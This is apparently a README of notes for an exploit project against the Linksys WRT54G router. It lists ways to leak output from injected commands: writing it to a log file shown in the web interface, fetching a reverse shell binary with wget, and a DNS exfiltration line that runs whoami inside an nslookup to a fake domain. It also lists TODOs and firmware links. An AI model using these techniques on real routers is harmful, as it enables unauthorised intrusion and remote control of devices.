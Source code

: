 # Exploiting Linksys WRT54G


### Leads for leaking command output
- [x] Look for file paths that are displayed within the web interface that command output can be written to.  
  Using `/tmp/ping.log` to view the output at `/Ping.asp`.
- [x] Use `wget` to download reverse shell binary to the router.
- [ ] Config the attacker as the DNS server and force the router to issue DNS requests with the command output.  
  Like ```nslookup `whoami`.fake.domain```


### TODOs
- [ ] Use argparse and make the exploit an executable.
- [ ] Start the reverse shell server within the exploit itself.


### Unsolved Mysteries
- If `ui_language` is stored in nvram (Non-Volatile Memory), how come it fixes itself upon reboot?


### Links
[Firmware](https://www.linksys.com/us/support-article?articleNum=148648)  
[Toolchain](https://www.linksys.com/us/support-article?articleNum=114663)
